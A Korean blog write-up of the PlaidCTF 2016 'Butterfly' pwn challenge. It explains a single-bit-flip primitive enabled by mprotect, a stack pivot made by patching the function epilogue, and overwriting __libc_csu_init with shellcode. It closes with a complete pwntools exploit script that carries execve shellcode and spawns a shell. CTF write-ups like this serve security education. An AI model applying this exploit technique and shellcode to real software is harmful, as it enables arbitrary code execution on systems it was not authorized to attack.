 ```yaml
---
layout: post
title: "PCTF 2016 - Butterfly"
date: 2017-11-16 +0900
author: "JaeHyuk Lim"
categories: [ctf, pwn]
tags: [ctf, pwn, exploit]
---
```

## I. 개요
 사실 얼마전부터 후이즈 블로그를 개설하게 되면서, 문제를 하나씩 풀어보면서 마크다운, 깃허브io 사용법을 익힐겸, 라이트업을 작성하기로 결정했다.<br />
 그에 대한 첫 번째 라이트업은 바로 Plaid CTF 2016의 Butterfly라는 문제!!<br />
 일단 문제 자체가 어렵거나 그런건 아니지만, 참신하게 접근할 수 있어서 작성해본다.<br />

## II. 바이너리 분석 
  바이너리는 크게 어려운 것은 없다, 일단 다음 코드를 살펴보도록 하자.<br />
  ```C
  v11 = *MK_FP(__FS__, 40LL);
  setbuf(_bss_start, 0LL);
  puts("THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?");
  v3 = 1;
  if ( fgets(&v10, 50, stdin) )
  {
    v4 = strtol(&v10, 0LL, 0);
    v5 = v4;
    v6 = (_BYTE *)(v4 >> 3);
    v7 = (void *)((v4 >> 3) & 0xFFFFFFFFFFFFF000LL);
    if ( mprotect(v7, 0x1000uLL, 7) )
    {
      perror("mprotect1");
    }
    else
    {
      v3 = 1;
      *v6 ^= 1 << (v5 & 7);
      if ( mprotect(v7, 0x1000uLL, 5) )
      {
        perror("mprotect2");
      }
      else
      {
        puts("WAS IT WORTH IT???");
        v3 = 0;
      }
    }
  }
  v8 = *MK_FP(__FS__, 40LL);
  if ( *MK_FP(__FS__, 40LL) == v11 )
    LODWORD(v8) = v3;
  return v8;
}
  ```

  어렵다기보다는 그냥 왜이렇게 코드가 짧음? 이라는 소리가 먼저나오는 코드이다.<br />
  일단, 프로그램의 흐름은 입력값을 fgets로 받고(그렇기 때문에 NULL바이트도 넣을 수 있다. 기억해둘 것) 이 값을 strtol()함수로 문자열을 정수로 바꾸는데, 이 함수는 뒤에 아무리 많은 문자열이 존재하더라도 숫자형태의 문자들만 정수형으로 치환해주기 때문에 뒤에는 값이 더들어갈 수 있다.<br />
  그리고 그렇게 바뀐 주소는 마지막 3비트가 Right Shift되고, 그 결과값을 기준으로 rwx(0x7) 권한으로 mprotect로 권한이 제어된다.<br />
  여기서 우리가 알아야할 점이 하나 있는데, <br />
  여기서 사용되는 마지막 3비트는 이후 1바이트를 xor하는데에 사용된다는 것을 명심해야 한다. <br />
  ```C
      v3 = 1;
      *v6 ^= 1 << (v5 & 7);
  ```
  이 부분을 보면 알 수 있듯이, 이전에 Right Shift를 해주었던 3비트는 7(0b111)을 AND연산해줌으로써 구할 수 있고, 이렇게 구해준 마지막 3비트가 1을 Left Shift를 해주는데 사용된다. 즉, 우리는 어떤 위치의 값을 바꾸어줄때 다음과 같은 연산을 할 수 있다는 뜻이 된다.<br /><br />

  만약 다음과 같은 비트열이 있다고 해보자.
  ```Python
  bin(ord('A')) == 0b1000001
  ```
  우리는 이 값을 소문자 'a'로 바꾸고 싶은 상황이다. 그렇다면 다음과 같이 바꿔줄 수 있다.<br />
  먼저 소문자 'a'를 바이너리로 나타내보자.<br />
  ```Python
  bin(ord('a')) == 0b1100001
  ```

  차이점이라고는 6번째 비트가 1로 바뀌었다는 정도이다. 그렇다면 우리는 xor의 특성을 이용해서 다음과 같은 방법으로 bit flip을 해줄 수 있다<br />
  ```C
       v3 = 1;
      *v6 ^= 1 << (v5 & 7);
  ```
  해당 코드에서 0b1000001이 0b1100001이 되기 위해서는 0b0100000이 xor되어야 한다.<br />
  그렇다면 우리는 여기서 1이 5만큼 좌측으로 Shift되어야하는 것을 알고 있다.<br />
  이를 마지막 3비트에 채워서 보내면 내가 원하는 메모리에 있는 대문자 'A'를 'a'로 바꾸도록 만들 수 있다.<br />

  이제 대충 취약점이 어떤식으로 동작하는지 알았으니까 익스플로잇을 진행할 때다.<br />
  이 코드를 잘 보도록 하자.
  ```C
  if ( mprotect(v7, 0x1000uLL, 7) )
  ...
  if ( mprotect(v7, 0x1000uLL, 5) )
  ...

  ```

  해당 코드의 mprotect는 현재 할당된 메모리의 실행 권한을 변경해주는 함수인데, 실행 권한에는 다음과 같은 녀석들이 있다.<br />
  PROT_NONE, PROT_READ, PROT_WRITE, PROT_EXEC, PROT_SEM, PROT_SAO ...<br />
  나도 몰랐던 권한이 정말 많다. 이중에서 우리가 알아야하는 녀석들은 PROT_READ, PROT_WRITE, PROT_EXEC 이 세가지이다.<br />

  여기서 PROT_WRITE는 쓰기 권한, PROT_READ는 읽기 원한을 의미하며, PROT_EXEC는 실행 권한을 의미한다.<br />
  일반적으로 실행권한은 rwx로 표현하며, 이렇게 3가지 권한이 할당되었을 때는 7으로 표현한다. 2진수 단위를 생각하면 편하다.<br />
  그렇다면 5라는 권한은 어떻게될까? 당연히 r-x라는 권한이 되며 이는 5를 의미한다.<br />

  여기서 mprotect를 이용해서 굳이 메모리 영역을 7로 권한을 조절해준 후, 다시 5로 바꿔주는 이유는 무엇일까?<br />
  그 이유는 바로 이 문제의 공격 방법에 있다.<br />
  실제로 프로그램 코드도 실행중인 프로세스의 가상 메모리 영역에 할당되어서 사용이 된다. 그렇기 때문에 코드 영역도 권한만 바꾸어준다면 WRITE권한을 가질수도 있게 된다.


  ```
  .text:0000000000400860                 add     rsp, 48h
.text:0000000000400864                 pop     rbx
.text:0000000000400865                 pop     r14
.text:0000000000400867                 pop     r15
.text:0000000000400869                 pop     rbp
.text:000000000040086A                 retn
  ```

  이 부분은 main함수의 끝 부분에 위치한 함수 에필로그 영역이다. (FTZ나 LOB를 해봤으면 에필로그가 무엇인지는 안다고 가정한다.)<br />
  해당 영역에서는 add rsp, 0x48을 통해서 이전에 사용된 메모리 영역을 다시 복구해주고 있는데, 여기서 0x48에 해당하는 OpCode를 1바이트 해당 취약점으로 수정함으로써, retn 명령이 실행되는 시점의 rsp 포인터를 우리가 입력해준 데이터가 들어있는 메모리로 바꿔줄 수 있다.<br />

  그리고 쓰기 권한을 부여하는 것이기 때문에 기존에 존재하는 메모리 영역을 바꾸는 것도 가능하다.<br />
  예를들면 다음과 같다.<br /><br />

  ```C
  void __fastcall _libc_csu_init(unsigned int a1, __int64 a2, __int64 a3)
{
  __int64 v3; // r13@1
  __int64 v4; // rbx@1
  signed __int64 v5; // rbp@1

  v3 = a3;
  v4 = 0LL;
  v5 = &_do_global_dtors_aux_fini_array_entry - _frame_dummy_init_array_entry;
  init_proc();
  if ( v5 )
  {
    do
      ((void (__fastcall *)(_QWORD, __int64, __int64))_frame_dummy_init_array_entry[v4++])(a1, a2, v3);
    while ( v4 != v5 );
  }
}
  ```

  이 녀석은 _libc_csu_init이라는 함수인데, 프로그램이 시작해서 _start 함수로 진입하였을 때, main함수를 실행하기 이전에 처리해주는 함수 정도로 생각하면 되겠다. (정확한 역할은 나중에 설명하도록 하겠다.)<br />
  이 녀석도 쓰기권한이 기존에 없었을 뿐이지, 우리가 만약 mprotect로 실행권한을 바꿔준다면 해당 영역의 코드를 우리가 원하는 어셈블리로 패치하는 것도 가능해진다.<br />
  나는 이를 이용해서 해당 영역을 64bit ShellCode로 바꾸어주었고, Return Address를 해당 주소로 이동시켜서 쉘을 획득했다.<br />

  Exploit Code
  ```Python
  #!/usr/bin/python
from pwn import *

elf = ELF("./butterfly")
shell = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
with open("csu.bin", "rb") as f:
	csu = f.read()
csu_addr = elf.symbols['__libc_csu_init']

p = process("./butterfly")
print p.recvuntil("RAY?\n")

put = (0x400863 << 3) + 0x7
put1 = 33571614
payload = str(put1) + "A" * 32
payload += p64(0x400788)

put2 = (0x4007c5 << 3) + 0x1

p.sendline(payload)
print p.recvuntil("RAY?\n")

payload = str(put2) + "A" * 32
payload += p64(0x400788)
p.sendline(payload)
print p.recvuntil("RAY?\n")

for cnt in range(0, len(shell)):
    csu_byte = ord(csu[cnt])
    #print "[*] csu_bin : " + bin(csu_byte)
    shell_byte = ord(shell[cnt])
    #print "[*] shell_bin : " + bin(shell_byte)
    for i in range(8):
        bit_csu = csu_byte & (0x1 << i)
        if (bit_csu != (shell_byte & (0x1 << i))):
            payload = str(((csu_addr + cnt) << 3) | (i))
            payload += "A" * 32
            payload += p64(0x400788)
            p.sendline(payload)
            p.recvuntil("RAY?\n")

p.sendline("A" * 40 + p64(csu_addr))

p.interactive()
  ```